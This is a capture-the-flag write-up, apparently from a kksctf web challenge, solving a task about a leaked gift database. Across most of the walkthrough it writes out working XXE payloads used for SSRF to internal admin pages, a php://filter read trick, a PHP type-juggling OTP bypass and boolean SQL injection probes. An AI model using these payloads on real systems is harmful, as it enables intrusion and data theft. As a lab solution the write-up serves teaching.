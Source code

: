 # Leaked new year DB


**Category:** Web

**Points:** 1000

**Description:**

kackers stole a gift recipient database and try to sell it on the Internet!
seems their application is not so secure.
They also have some secrets, get it!

http://tasks.open.kksctf.ru:20006/

Author: @thunderstorm8

## WriteUp 

Task starts with basic index page.

We have only one field under control and restricted page. no cookies, no strange headers.

`/robots.txt` has one entery with docker log where we could get the hostname.

Inspection of sources bring us strange obfuscated script:
   
   `<script type="text/javascript">
  var _0x2396=["","\x3C\x3F\x78\x6D\x6C\x20\x76\x65\x72\x73\x69\x6F\x6E\x3D\x22\x31\x2E\x30\x22\x20\x65\x6E\x63\x6F\x64\x69\x6E\x67\x3D\x22\x55\x54\x46\x2D\x38\x22\x3F\x3E","\x3C\x72\x6F\x6F\x74\x3E","\x3C\x65\x6D\x61\x69\x6C\x3E","\x76\x61\x6C","\x23\x65\x6D\x61\x69\x6C","\x3C\x2F\x65\x6D\x61\x69\x6C\x3E","\x3C\x2F\x72\x6F\x6F\x74\x3E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x6C\x6F\x67","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","\x65\x72\x72\x6F\x72\x4D\x65\x73\x73\x61\x67\x65","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x50\x4F\x53\x54","\x70\x72\x6F\x63\x65\x73\x73\x2E\x70\x68\x70","\x6F\x70\x65\x6E","\x73\x65\x6E\x64"];function XMLFunction(){var _0xca21x2=_0x2396[0]+ _0x2396[1]+ _0x2396[2]+ _0x2396[3]+ $(_0x2396[5])[_0x2396[4]]()+ _0x2396[6]+ _0x2396[7];var _0xca21x3= new XMLHttpRequest();_0xca21x3[_0x2396[8]]= function(){if(_0xca21x3[_0x2396[9]]== 4){console[_0x2396[10]](_0xca21x3[_0x2396[9]]);console[_0x2396[10]](_0xca21x3[_0x2396[11]]);document[_0x2396[14]](_0x2396[13])[_0x2396[12]]= _0xca21x3[_0x2396[11]]}};_0xca21x3[_0x2396[17]](_0x2396[15],_0x2396[16],true);_0xca21x3[_0x2396[18]](_0xca21x2)}
  </script>`

After some magic it should be readeble:

`<script type="text/javascript">
    var xml = '<?xml version="1.0" encoding="UTF-8"?><root><email>val#email</email></root>'; 
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
    </script>`
    
Woah! it's frontend script for creating xml! burp could show us thats xml is fully controlled.

PFFFF easiest web in my life! only one XXE and flag is mine!

Suka blyad'! no LFI! where is my flag? admin allo!

Once LFI is not working try SSRF more that, we have seen admin area. its accessible from internal web.

Modifying a little xml we get a payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://127.0.0.1:20005/admin.php">]><root><email>&test;</email></root>`

It's not working! AUGHHHH

STOP! docker log sad us about dockerhost! let's try again!! 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://web/admin.php">]><root><email>&test;</email></root>`

It's not working!! oh god why??? and god sad us: HTML familiar with XML and breaks in in processing, encode it!

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php">]><root><email>&test;</email></root>`

OOOOOOOMG we got an admin pannel! but WTF, its a login pannel oh!

 `<form action="" method="get">
        <label>UserName :</label><input type="text" name="username" /><br /><br />
        <label>Password :</label><input type="password" name="password" /><br /><br />
        <label>otp :</label><input type="otp" name="otp" /><br /><br />
        <input type="submit" value=" Submit " /><br />
    </form>`

lets try to login, with a get query!

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp=3">]><root><email>&test;</email></root>`

any data in query returns us "BAD OTP"

php is not a php if it is not comparasion bugs! rare type of type juggling brings us a luck!

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp[]=3">]><root><email>&test;</email></root>`

just a moment! wtf is not working again! [] are XML special chars and we have to encode them with url encode

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=http://web/admin.php?username=1&password=2&otp%5B%5D=3">]><root><email>&test;</email></root>`

luck again! we got "user doesn't exists" 

attempts to bruteforce are usless...

maybe its SQLI? we all love sqli!!!!!

`' or 1=1 -- returned "exists"`
`' or 1=0 -- returned "not exists"`

boolean based SQLI confirmed!

now u have 3 ways: 
    try to install sqlmap (its really hard cuz via XXE and sqlmap just crashes)
    write a proxy for sqlmalp to needed parameter
    do it manually (rly first solve for this task got a flag by hands, second too)

surprise! there is one more column 'secrets'

flag stored there!

    
